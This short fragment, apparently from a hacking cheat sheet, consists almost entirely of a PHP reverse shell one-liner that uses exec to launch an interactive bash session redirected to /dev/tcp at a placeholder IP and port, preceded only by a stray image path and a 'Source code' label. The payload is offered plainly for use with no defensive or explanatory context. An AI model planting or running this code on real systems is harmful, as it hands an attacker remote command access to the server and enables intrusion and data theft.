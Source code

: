 Reverse shell one liner:
```php
<?php
exec("/bin/bash -c 'bash -i >& /dev/tcp/<ip>/<port> 0>&1'");
```
